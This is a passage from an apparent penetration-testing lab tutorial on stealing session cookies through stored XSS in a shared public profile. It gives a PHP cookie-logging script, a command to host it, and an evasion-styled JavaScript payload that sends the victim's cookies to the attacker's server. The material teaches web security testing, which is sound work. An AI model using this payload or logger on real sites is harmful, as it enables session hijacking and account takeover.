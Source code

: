 * * *

## Obtaining session cookies through XSS

We identified that we could create and share publicly accessible profiles that contain our specified XSS payloads.

Let us create a cookie-logging script (save it as `log.php`) to practice obtaining a victim's session cookie through sharing a vulnerable to stored XSS public profile. The below PHP script can be hosted on a VPS or your attacking machine (depending on egress restrictions).

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>

```

This script waits for anyone to request `?c=+document.cookie`, and it will then parse the included cookie.

The cookie-logging script can be run as follows. `TUN Adapter IP` is the `tun` interface's IP of either Pwnbox or your own VM.

```shell
php -S <VPN/TUN Adapter IP>:8000
[Mon Mar  7 10:54:04 2022] PHP 7.4.21 Development Server (http://<VPN/TUN Adapter IP>:8000) started

```

Before we simulate the attack, let us restore Ela Stienen's original Email and Telephone (since we found no XSS in these fields and also want the profile to look legitimate). Now, let us place the below payload in the _Country_ field. There are no specific requirements for the payload; we just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Payload:

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

```

**Note**: If you're doing testing in the real world, try using something like [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Project Interactsh](https://app.interactsh.com). A default PHP Server or Netcat may not send data in the correct form when the target web application utilizes HTTPS.
